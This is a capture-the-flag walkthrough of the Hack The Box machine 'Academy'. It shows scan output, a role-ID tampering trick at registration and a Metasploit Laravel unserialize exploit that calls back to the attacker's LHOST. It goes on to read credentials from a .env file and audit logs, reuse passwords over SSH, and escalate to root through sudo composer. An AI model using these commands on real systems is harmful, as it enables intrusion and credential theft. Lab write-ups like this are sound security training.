 ![ACADEMY](images/banner.png)

```
/htb_init.sh academy 10.129.241.217
[sudo] password for kali: 
NocentSec Box Scanner
Name: academy
IP: 10.129.241.217
[+]Downloading dependencies
[+]Starting Initial Portscan
[+]Enumerating

════════════════════════════════════╣ DIRECTORIES & FILES ON PORT 80 ╠════════════════════════════════════

/.hta                 (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/admin.php            (Status: 200) [Size: 2633]
/admin.php            (Status: 200) [Size: 2633]
/.hta.php             (Status: 403) [Size: 276]
/.hta.html            (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/index.php            (Status: 200) [Size: 2117]
/index.php            (Status: 200) [Size: 2117]
/login.php            (Status: 200) [Size: 2627]
/.htaccess.html       (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/register.php         (Status: 200) [Size: 3003]
/.htpasswd.html       (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]

════════════════════════════════════╣ PORTS & SERVICES ╠════════════════════════════════════

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Hack The Box Academy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

════════════════════════════════════╣ SUBDOMAINS ON PORT 80 ╠════════════════════════════════════

  [-]No subdomains found.


done

```
scanned with our [box scanner](https://github.com/NocentSec)

## Foothold

Visiting the webpage we see a `LOGIN` and a `REGISTER` button. So let's register a new user `test:test`.
You won't get a confirmation just trust that it works. You can now log in with your new account.

![home.png](images/home.png)

No matter what you choose as a username it will always says `egre55` in the upper right corner.

Our initial scan also revealed an admin page `/admin` however our new user doesn't work there.
Let's go step back and intercept our new account registration with burpsuite:

![register.png](images/register.png)

Notice the `roleid=0`? Let's change that to a `1` and register a new user.

We can now log in to the admin page.

![adminpage.png](images/adminpage.png)

It says `Fix issue with dev-staging-01.academy.htb` so let's add that subdomain to our `/etc/hosts` file.

![devstaging.png](images/devstaging.png)

We got an error referencing the laravel.log.
After researching we found a metasploit module for that which gives us a meterpreter:

```
use unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.129.241.217
set VHOST dev-staging-01.academy.htb
set LHOST 10.10.14.30
```
You can get the app key from the `dev-staging-01.academy.htb` site.

Now `run`.

![msf.png](images/msf.png)

For a better shell just spawn a tty with python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User

Exploring the machine we find a password in `/var/www/html/academy/.env`

```
www-data@academy:/var/www/html/academy$ cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

Let's try for password reuse on this system. `cat /etc/passwd` will give you the list of users:

```
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Trying these with ssh and the password `mySup3rP4s5w0rd!!` works for user `cry0l1t3`.

You can now read the `user.txt`.

## Root

Since we are in the (adm) group `uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)` we can read log files in `/var/logs`. Especially the audit logs are interesting for us but [linpeas]() is too fast and already found the juicy part in it:

```
╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>        
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

Alternatively we could've run `aureport --tty` for the same output.

Now let's log in as `mrb3n:mrb3n_Ac@d3my!` and run `sudo -l`.

![sudo.png](images/sudo.png)

Look like we can run `/usr/bin/composer` as with sudo rights. Let's just follow [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) as always.

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
![root.png](images/root.png)
